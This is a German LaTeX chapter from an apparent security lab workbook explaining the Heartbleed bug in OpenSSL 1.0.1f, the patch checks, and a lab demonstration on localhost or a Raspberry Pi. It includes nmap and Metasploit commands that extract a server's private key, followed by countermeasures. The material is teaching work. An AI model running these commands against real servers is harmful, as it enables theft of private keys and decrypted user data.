\chapter{Heartbleed in OpenSSL}
%
\begin{figure}[htbp] 
  \centering
  
\includegraphics[width=\textwidth]{images/heartbleed/CodeDiffView}
  \caption{Side-by-Side Vergleich der 1\_lib.c von OpenSSL 1.0.1f (links) und OpenSSL 1.0.1g (rechts)}
  \label{fig:Hearthbleed_CodeDiffView}
\end{figure}
%
Ein schwerwiegender Programmierfehler in der OpenSource-Bibliothek OpenSSL blieb vom Dezember 2011 bis April 2014 unerkannt und gefährdete Verschlüsselung, Schlüssel und Daten der mit OpenSSL gesicherten Verbindungen im Internet. Der Fehler entstand in der Heartbeat-Funktion und erhielt daher den Namen Heartbleed Bug. Über den Heartbeat können Kommunikationspartner zusätzlich zu den normalen verschlüsselten Sitzungsdaten auch beliebig große Nachrichten auszutauschen und dadurch überprüfen, ob die Gegenseite noch aktiv ist. Dafür stellt ein Partner einen \bashCommand{TLS1\_HB\_REQUEST} und übergibt der Gegenseite ein beliebiges Datenpaket (Payload) und zusätzlich die Länge des Datenpakets. In der Antwort wird die Payload der Anfrage kopiert und unverändert zurück gesendet. Da die Payload von beliebiger Länge sein kann, fällt die Länge der Heartbeat-Nachrichten unterschiedlich aus. 
%
Ein wichtiges Sicherheitsprinzip der IT Sicherheit lautet "'Reluctance to Trust"' und sagt aus, dass Eingaben in ein System von außen stets als gefährlich betrachtet werden sollen. Genau dieses Sicherheitsprinzip wurde bei der Implementierung der Heartbeat-Funktion missachtet und verursachte Heartbleed.
%
Im Detail betrachtet, implementiert OpenSSL eine eigene Speicherverwaltung \bashCommand{OPENSSL\_malloc()}. Für die \bashCommand{TLS1\_HB\_RESPONSE} wird im ersten Schritt Speicher reserviert. Dabei wird die in der Anfrage angegebene Länge der Payload verwendet (nicht die tatsächliche!) und noch etwas zusätzlicher Platz für Verwaltungsinformationen gelassen.
%
\begin{lstlisting}
buffer = OPENSSL_malloc(1 + 2 + payload + padding);
bp = buffer;
\end{lstlisting}
%
Im nächsten Schritt werden die Verwaltungsinformationen gesetzt und die Payload aus der Anfrage in den reservierten Speicherbereich kopiert. Dafür wird an der Payload-Startadresse der Anfrage begonnen und erstreckt sich über die angegebene Länge der Payload. Im Anschluss wird die Nachricht versendet.
%
\begin{lstlisting}
memcpy(bp, pl, payload);
\end{lstlisting}
%
Schickt ein Angreifer eine Hearbeat-Message mit 1 Byte Payload an einen verwundbaren Server, behauptet jedoch, dass die Payload beispielsweise 16kByte beträgt, antwortet dieser mit einer Nachricht über die angegebene Länge der Payload von 16kByte. Dabei entspricht jedoch nur das erste Byte der Payload aus der Anfrage, die restlichen Byte stammen aus der Speicherverwaltung und können zuletzt entschlüsselte Passwörter oder Daten anderen Benutzer bzw. der geheime Schlüssel des Servers enthalten.
%
\vspace{11pt}
\\
%
Mit dem Patch OpenSSL 1.0.1g wurden zwei zuvor fehlende Checks eingebaut. Die erste Abfrage überprüft, ob die Nachrichtenlänge der Verwaltungsinformationen korrekt sind, bevor der Nachrichtentyp und die angegebene Länge der Payload ausgelesen werden. Falls nicht, wird die Anfrage nicht beantworte.
%
\begin{lstlisting}
if (1 + 2 + 16 > s->s3->rrec.length)
return 0; /* silently discard */
\end{lstlisting}
%
Die zweite Abfrage überprüft im Anschluss, ob die angegebene Länge der Payload mit der tatsächlichen übereinstimmt. Falls dies nicht der Fall ist, wird die Anfrage ebenfalls nicht beantwortet.
\begin{lstlisting}
if (1 + 2 + payload + 16 > s->s3->rrec.length)
return 0; /* silently discard per RFC 6520 sec. 4 */
\end{lstlisting}
%
\begin{figure}[htbp]
	\centering
	
\includegraphics[width=0.6\textwidth]{images/heartbleed/heartbleed.png}
	\caption{Skizze des Heartbeat-Mechanismus und der Verwundbarkeit namens Heartbleed nach \url{https://commons.wikimedia.org/wiki/File:Simplified_Heartbleed_explanation.svg}}
\end{figure}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%		Vorbereitung								%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Vorbereitung}
%
Es werden ein bis zwei Rechner mit Kali Linux 2.0 und eingerichteter Security Workbench benötigt. Verwendet man nur einen Rechner, so fungiert dieser sowohl als Opfer als auch als Angreifer. Sollen die Rollen über zwei Rechner verteilt werden, müssen diese über das Netzwerkprotokoll TCP auf einem beliebigen Port -- voreingestellt ist 8989 -- miteinander kommunizieren können.

\section{Ablauf}
Die Demonstration erfolgt in zwei Phasen: Zuerst konfiguriert und startet das Opfer einen für Heartbleed verwundbaren Server. Anschließend stellt der Angreifer die Schwachstelle fest und liest den Private Key des Servers aus. Abschließend kann das Opfer den Server beenden.

Wird der Angriff an der Raspberry Pi Aufbau nachgestellt, kann als Opfer ebenfalls der als Server fundierende Pi angegriffen werden, auf dem standardmäßig unter dem Port 8989 ein verwundbarer Server läuft.

\subsection{Opfer -- Die Einrichtung des verwundbaren Servers}

Damit eine Demonstration der Verwundbarkeit möglich ist, wurde OpenSSL 1.0.1f als Kompilat in das Wurzelverzeichnis der Workbench für die ARM Architektur und die X86 Architektur abgelegt. Das Python Programm ermittelt die Hardware Plattform um sorgt somit automatisch, dass das richtige Kompilat ausgewählt wird.
%
Im ersten Schritt wird die OpenSSL Version ausgelesen. Bei der Version OpenSSL 1.0.1f handelt es sich um die letzte verwundbaren Versionen handelt.

\begin{lstlisting}
# ./arm_openssl version
OpenSSL 1.0.1f 6 Jan 2014
\end{lstlisting}

Durch das \bashCommand{./} wird sichergestellt, dass das OpenSSL-Programm im lokalen Verzeichnis verwendet wird -- statt der aktuelleren und vorinstallierten Version von Kali Linux. Das Präfix \bashCommand{arm\_} oder \bashCommand{x86\_} sorgt dafür, dass das zur Architektur passende OpenSSL Kompilat ausgewählt wird.

Um eine SSL-Verbindung anzubieten, wird ein Private Key und ein (selbst-) signierter Public Key benötigt, beide Dateien werden ebenfalls mit OpenSSL erzeugt. Der Benutzer wird während des Vorgangs aufgefordert, Angaben zum gerade erstellten Zertifikat zu machen. Die Vorgaben können nach Belieben übernommen oder abgeändert werden.

\begin{lstlisting}
# ./arm_openssl req -x509 -newkey rsa:1024 -keyout private_key.pem -out certificate.pem -days 365 -nodes -config /etc/ssl/openssl.cnf
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{req} Durchführung eines Certificate Signing Requests(CSR)
	\item \bashCommand{-x509} Erzeugung eines selbstsigniertes Zertifikats statt CSR
	\item \bashCommand{-newkey rsa:1024} Neuer Private Key für 1024-bit RSA
	\item \bashCommand{-keyout private\_key.pem} Ausgabedatei für Private Key
	\item \bashCommand{-out certificate.pem} Ausgabedatei für das Zertifikat
	\item \bashCommand{-days 365} Gültigkeitsdauer des selbstsignierten Zertifikats in Tagen
	\item \bashCommand{-nodes} Der erzeugte Private Key wird unverschlüsselt abgelegt
	\item \bashCommand{-config /etc/ssl/openssl.cnf} Angabe einer zusätzlicher Konfigurationsdatei
\end{itemize}

Zum Vergleich mit dem später vom Angreifer ausgelesenen Private Key wird dieser nun mit OpenSSL ausgegeben.

\begin{lstlisting}
# ./arm_openssl rsa -in private_key.pem
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{rsa} Bearbeitung von RSA Schlüsseln
	\item \bashCommand{-in private\_key.pem} Angabe der Datei, welche den Private Key enthält
\end{itemize}

Nun kann der in OpenSSL integrierte Webserver gestartet werden. Da der Aufruf eine Live Ausgabe auf der Shell hervorruft, wird dieser in einer zusätzlichen Shell geöffnet. Die anschließend aufrufbare Website zeigt Informationen über die SSL-Konfiguration an.

\begin{lstlisting}
./openssl s_server -key private_key.pem -cert certificate.pem
	-accept 8989 -www
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{s\_server} Start eines einfachen Webservers
	\item \bashCommand{-key private\_key.pem -cert certificate.pem } Private Key und Zertifikat
	\item \bashCommand{-accept 8989} TCP-Port des Webservers
	\item \bashCommand{-www} Einfacher Webserver mit Statusinformationen
\end{itemize}

Der Webserver kann nun unter \url{https://localhost:8989} aufgerufen werden.

\subsection{Angreifer -- Attacke mit Nmap und Metasploit}

Wurde der Webserver wie im vorangehenden Abschnitt beschrieben eingerichtet, kann nun der Angriff auf die verwundbare OpenSSL-Instanz begonnen werden. Für die folgenden Kommandos wird die IP des Opfers und der verwendete Port benötigt. Werden beide Skripte auf dem selben Rechner durchgeführt, lautet die IP-Adresse \bashCommand{127.0.0.1}. Der Port ist standardmäßig \bashCommand{8989}.

Wird der Angriff an der Raspberry Pi Security Workbench nachgestellt, kann zu jeder Zeit Raspberry Pi Server unter \bashCommand{router.local:8989} angegriffen werden.

Im ersten Schritt wird mit dem Netzwerkscanner Nmap überprüft, ob der Server für Heartbleed anfällig ist. Dieser Scan kann einige Zeit in Anspruch nehmen, währenddessen werden im Konsolenfenster des OpenSSL-Servers einzelne Anfragen angezeigt.

\begin{lstlisting}
nmap --script ssl-heartbleed -sV -p 8989 router.local
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{nmap} Netzwerkscanner
	\item \bashCommand{--script ssl-heartbleed} Verwendung des Heartbleed-Scanner Plugins
	\item \bashCommand{-sV} Dienst- und Versionserkennung auf offenen Ports
	\item \bashCommand{-p 8989} zu verwendenter Port
	\item \bashCommand{router.local} IP des zu scannenden Servers, in diesem Fall der des Raspberry Pi Servers
\end{itemize}

Nach Abschluss des Scans wird folgender Hinweis ausgegeben. Der Server ist aus Sicht des Angreifers für Heartbleed verwundbar.

\begin{lstlisting}[caption={Nmap Ausgabe zu verwundbaren SSL-Dienst},label=lst:nmap_heartbleed]
PORT     STATE SERVICE  REASON         VERSION
8989/tcp open  ssl/http syn-ack ttl 64 OpenSSL s_server -www httpd (command line: s_server -key private_key.pem -cert certificate.pem -accept 8989 -www)
| ssl-heartbleed:
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
\end{lstlisting}

Nun wird versucht, mittels Metasploit den Private Key des Servers auszulesen. Üblicherweise wird Metasploit als selbstständige Konsole gestartet, auf welcher einzelne Befehle zur Konfiguration des Angriffs nacheinander eingegeben werden. Diese Befehle werden stattdessen hier mit \bashCommand{-x} direkt als Parameter angegeben.

\begin{lstlisting}[caption={Metasploit-Plugin zum Angriff auf den OpenSSL-Server},label=lst:metasploit_heartbleed]
msfconsole -x '
	# Lade das Heartbleed-Plugin
	use auxiliary/scanner/ssl/openssl_heartbleed;
	# Setze den Modus auf Gewinnung des Private Keys
	set action KEYS;
	# IP des Zielservers
	set RHOSTS 127.0.0.1;
	# Port des SSL-Dienstes
	set RPORT 8989;
	# erweitere Ausgabe
	set verbose true;
	# Starte den Exploit
	exploit;
	# Beende Metasploit
	exit;
'
\end{lstlisting}


Nach Start der Metasploit-Konsole -- was einige Zeit in Anspruch nehmen kann -- wird der OpenSSL-Server automatisiert angegriffen und bei Erfolg der Private Key auf der Konsole ausgegeben. Dieser sollte identisch zum zuvor vom Opfer erzeugten Private Key sein, der in dessen Konsole ausgegeben worden ist.

\section{Gegenmaßnahmen}
Veraltete OpenSSL-Bibliotheken sollten aktualisiert werden. Sicher vor Heartbleed ist OpenSSL ab Version 1.0.1g, aktuell ist die Version 1.0.2n\footnote{Stand Januar 2018}. Zudem sollten alle privaten Schlüssel des Servers als kompromittiert betrachtet, widerrufen\footnote{Stichwort Certificate Revocation List} und ersetzt werden.




